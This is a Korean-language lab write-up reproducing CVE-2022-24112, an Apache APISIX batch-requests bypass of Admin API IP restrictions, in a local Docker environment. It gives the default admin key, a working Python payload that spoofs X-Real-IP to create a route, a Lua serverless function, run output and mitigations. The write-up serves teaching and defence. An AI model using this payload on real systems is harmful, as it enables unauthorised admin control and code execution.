




# Apache APISIX batch-requests IP 제한 우회 (CVE-2022-24112)

**Contributors**

-   [yuna-security](https://github.com/yuna-security)

<br/>

## 목차

1. [취약점 요약](#취약점-요약)
2. [취약 조건](#취약-조건)
3. [환경 구성](#환경-구성)
4. [실행 방법](#실행-방법)
5. [취약점 재현](#취약점-재현)
6. [PoC 코드](#poc-코드)
7. [실행 결과](#실행-결과)
8. [대응 방안](#대응-방안)
9. [정리](#정리)
10. [참고 자료](#참고-자료)

## 취약점 요약

CVE-2022-24112는 Apache APISIX의 `batch-requests` 플러그인에서 발생한 IP 제한 우회 취약점이다. 취약한 APISIX 구성에서는 외부 사용자가 직접 Admin API에 접근하면 `allow_admin` 정책에 의해 차단되지만, `batch-requests`를 통해 APISIX 내부에서 Admin API 요청이 다시 발생하도록 만들 수 있다.

이때 APISIX 기본 Admin Key가 그대로 사용되고, Admin API가 data plane과 같은 포트에서 동작하는 경우 공격자는 Admin API를 우회 호출하여 route를 생성하거나 플러그인 설정을 변경할 수 있다. 그 결과 `serverless-pre-function`과 같은 플러그인을 통해 APISIX 컨테이너 내부에서 Lua 코드 실행이 가능해진다.

- CVE ID: CVE-2022-24112
- 대상 제품: Apache APISIX
- 취약 유형: IP 제한 우회, Admin API 우회 호출, 원격 코드 실행 가능
- 위험도: CVSS 3.x 9.8 Critical
- 실습 범위: 로컬 Docker 컨테이너, `127.0.0.1:9080`

## 취약 조건

본 실습에서는 다음 조건을 의도적으로 구성했다.

1. Apache APISIX 취약 버전 사용
   - `apache/apisix:2.10.1-alpine`
   - APISIX LTS 2.10.4 미만, APISIX 2.12.1 미만 버전이 취약하다.
2. 기본 Admin Key 사용
   - `edd1c9f034335f136f87ad84b625c8f1`
3. Admin API 활성화
   - `enable_admin: true`
4. Admin API IP 제한 설정
   - `allow_admin: 127.0.0.0/24`
   - 호스트에서 직접 접근하면 `403 Forbidden`이 발생한다.
5. `batch-requests` 플러그인 활성화
   - 내부 요청을 만들어 `/apisix/admin` 경로로 우회 접근한다.

## 환경 구성

강의에서 강조된 것처럼 `latest` 태그가 아니라 정확한 이미지 버전을 고정했다. 또한 `docker compose` 하나로 APISIX와 etcd를 함께 구동하도록 구성했다.

| 구성 요소 | 이미지 | 역할 |
| --- | --- | --- |
| APISIX | `apache/apisix:2.10.1-alpine` | 취약한 API Gateway |
| etcd | `quay.io/coreos/etcd:v3.4.15` | APISIX 설정 저장소 |

파일 구조는 다음과 같다.

```text
APISIX/CVE-2022-24112/
├── conf/
│   └── config.yaml
├── images/
├── docker-compose.yml
├── flag.txt
├── poc.py
└── README.md
```

외부에 노출되는 포트는 로컬 루프백 주소로 제한했다.

```yaml
ports:
  - "127.0.0.1:9080:9080"
```

## 실행 방법

아래 명령은 `docker-compose.yml`이 있는 디렉터리에서 실행한다.

```bash
docker compose up -d
```

APISIX와 etcd 컨테이너 상태를 확인한다.

```bash
docker compose ps
```

PoC를 실행한다. 별도의 외부 패키지 없이 Python 3 표준 라이브러리만 사용한다.

```bash
python3 poc.py
```

실습이 끝나면 컨테이너와 네트워크를 정리한다.

```bash
docker compose down -v
```

## 취약점 재현

`python3 poc.py`를 **한 번** 실행하면 아래 세 단계가 순서대로 출력된다. 각 단계의 의미는 다음과 같다.

### 1. 직접 Admin API 접근 차단 확인

먼저 호스트에서 직접 Admin API에 접근한다. `allow_admin`이 `127.0.0.0/24`로 제한되어 있으므로 Docker 브리지 네트워크를 거쳐 들어오는 호스트 요청은 차단된다. 출력의 첫 번째 단계에서 다음과 같이 `403 Forbidden`이 확인된다.

```text
[1] Direct Admin API access from host
HTTP 403
```



*그림 1. 호스트에서 Admin API 직접 접근 시 403 Forbidden 차단*

### 2. batch-requests를 통한 Admin API 우회

이후 PoC는 `/apisix/batch-requests`로 내부 요청을 전달한다. 취약한 APISIX는 이 내부 요청을 `127.0.0.1`에서 발생한 요청처럼 처리하므로, `/apisix/admin/routes/cve-2022-24112` route 생성 요청이 성공한다.

응답(HTTP 200)의 내부 subrequest 결과에는 방금 생성된 route 정보가 담겨 있다. 첫 실행에서는 `subrequest_status=201`이 나올 수 있고, 같은 route가 이미 생성된 상태에서 다시 실행하면 `subrequest_status=200`이 나올 수 있다. 두 경우 모두 `action=set`과 route key가 확인되면 Admin API가 우회 호출되어 route가 생성 또는 갱신된 것이다.

```text
[2] Admin API request through batch-requests
HTTP 200
subrequest_status=200 reason=OK
action=set
route_key=/apisix/routes/cve-2022-24112
```



*그림 2. batch-requests로 Admin API를 우회 호출해 route 생성 성공*

### 3. 생성된 route 접근 및 코드 실행 확인

PoC가 생성한 route는 `/cve-2022-24112-poc`이다. 이 route에는 `serverless-pre-function` 플러그인이 설정되어 있으며, APISIX 컨테이너에 읽기 전용으로 마운트된 `flag.txt`를 Lua 코드로 읽어 응답한다.

성공 시 다음 문자열이 출력된다.

```text
[3] Code execution proof in the APISIX container
HTTP 200
CVE-2022-24112 local Docker lab flag
```



*그림 3. 생성된 route 접근 시 컨테이너 내부 Lua 코드 실행 결과(flag) 반환*

## PoC 코드

전체 PoC는 `poc.py`에 포함되어 있다. 핵심 흐름은 다음과 같다.

1. 직접 `/apisix/admin/routes/direct-check`에 접근해 차단 여부를 확인한다.
2. `/apisix/batch-requests`에 내부 Admin API 요청을 포함해 route를 생성한다.
3. 생성된 `/cve-2022-24112-poc` route에 접근해 컨테이너 내부 코드 실행 결과를 확인한다.

핵심 payload는 다음과 같다.

```python
batch_payload = {
    "headers": {
        "X-Real-IP": "127.0.0.1",
        "X-API-KEY": ADMIN_KEY,
        "Content-Type": "application/json",
    },
    "timeout": 5000,
    "pipeline": [
        {
            "method": "PUT",
            "path": "/apisix/admin/routes/cve-2022-24112",
            "headers": {"Content-Type": "application/json"},
            "body": json.dumps(route),
        }
    ],
}
```

route에 설정되는 Lua 함수는 실습용 flag 파일만 읽는다. 외부 네트워크 연결, 리버스 셸, 지속성 동작은 포함하지 않았다.

```lua
return function(conf, ctx)
    local f = io.open('/tmp/cve-2022-24112-flag.txt', 'r')
    local data = f and f:read('*a') or 'flag file not found'
    if f then f:close() end
    ngx.status = 200
    ngx.say(data)
    return ngx.exit(200)
end
```

## 실행 결과

실제 로컬 환경에서 다음 결과를 확인했다.

```text
[1] Direct Admin API access from host
HTTP 403
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty</center>
</body>
</html>

[2] Admin API request through batch-requests
HTTP 200
subrequest_status=200 reason=OK
action=set
route_key=/apisix/routes/cve-2022-24112

[3] Code execution proof in the APISIX container
HTTP 200
CVE-2022-24112 local Docker lab flag
```

컨테이너 상태는 다음과 같다.

```text
NAME                         IMAGE                         STATUS
apisix-cve-2022-24112        apache/apisix:2.10.1-alpine   Up
apisix-cve-2022-24112-etcd   quay.io/coreos/etcd:v3.4.15   Up (healthy)
```



*그림 4. APISIX·etcd 컨테이너 정상 기동 상태 (`docker compose ps`)*

## 대응 방안

1. Apache APISIX를 안전한 버전으로 업그레이드한다.
   - APISIX 2.12.1 이상
   - APISIX LTS 2.10.4 이상
2. 기본 Admin Key를 즉시 변경한다.
3. Admin API를 data plane과 같은 포트에서 노출하지 않고 별도 관리망으로 분리한다.
4. `allow_admin`을 신뢰 가능한 관리 IP로만 제한한다.
5. `batch-requests` 플러그인이 필요하지 않다면 비활성화한다.
6. APISIX Admin API 접근 로그를 모니터링하여 비정상적인 route 생성, 플러그인 변경 요청을 탐지한다.

## 정리

이 실습은 APISIX의 `batch-requests` 플러그인이 내부 요청을 생성하는 방식을 악용해 Admin API IP 제한을 우회할 수 있음을 보여준다. 직접 Admin API 접근은 `403 Forbidden`으로 차단되지만, 취약한 구성에서는 `batch-requests`를 통해 내부 요청을 만들 수 있고, 그 결과 Admin API를 통해 route와 플러그인 설정을 변경할 수 있다.

컨테이너 보안 관점에서는 강의에서 다룬 것처럼 이미지 태그를 고정하고, compose 파일로 재현 가능한 환경을 제공하는 것이 중요하다. 또한 취약점의 위험도는 단일 컨테이너 내부 취약점만이 아니라 Admin API 노출 방식, 기본 키 사용 여부, 네트워크 분리 여부와 함께 평가해야 한다.

## 참고 자료

- Apache APISIX 공식 공지: <https://apisix.apache.org/blog/2022/02/11/cve-2022-24112/>
- NVD CVE-2022-24112: <https://nvd.nist.gov/vuln/detail/CVE-2022-24112>
- APISIX 2.10.1 기본 설정: <https://github.com/apache/apisix/blob/2.10.1/conf/config-default.yaml>
- APISIX 2.10.1 batch-requests 플러그인: <https://github.com/apache/apisix/blob/2.10.1/apisix/plugins/batch-requests.lua>
- kr-vulhub: <https://github.com/gunh0/kr-vulhub>
